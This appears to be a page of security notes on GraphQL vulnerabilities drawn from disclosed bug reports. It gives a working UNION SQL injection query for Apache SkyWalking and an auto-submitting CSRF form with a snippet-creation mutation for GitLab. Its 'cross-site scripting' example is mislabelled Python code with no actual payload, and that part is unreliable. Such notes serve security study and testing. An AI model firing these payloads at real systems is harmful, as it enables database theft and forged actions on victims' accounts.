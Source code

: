 {% embed url="https://hackerone.com/reports/435066" %}

* **SQL Injection in an Object Argument (Apache SkyWalking):** A SQL injection vulnerability was found in Apache SkyWalking where the vulnerability was located in an object argument . A code review revealed that the vulnerability stemmed from a lack of sanitization when constructing SQL queries using client-supplied data .

```graphql
query SQLi($d: Duration!) {
    getLinearIntValues(metric:{name: "all_p99", id: "') UNION SELECT 1,CONCAT('~','9999999999','~')--"},duration: $d) {
        values {
            value
        }
    }
}
```

{% embed url="https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-9483.yaml" %}

* **Cross-Site Scripting (GraphQL Playground):** A cross-site scripting vulnerability was found in GraphQL Playground .

```javascript
class UserObject(SQLAlchemyObjectType):
    class Meta:
        name = "MyMaliciousTypeName"
        model = User
```



### Cross-Site Request Forgery (CSRF)

* A CSRF vulnerability was found in GitLab . The following GraphQL mutation was used to exploit the vulnerability:

{% embed url="https://hackerone.com/reports/1122408" %}

```html
<form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET"> ❶
    <input name= "query" value="mutation CreateSnippet($input: CreateSnippetInput!) --snip--">
    <input name= "variables" value='{"input":{"title":"Tesssst Snippet"} --snip--'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

```graphql
mutation CreateSnippet($input: CreateSnippetInput!) {
  createSnippet(input: $input) {
    errors
    snippet {
      webUrl
      __typename
    }
    --snip--
  }
}
```
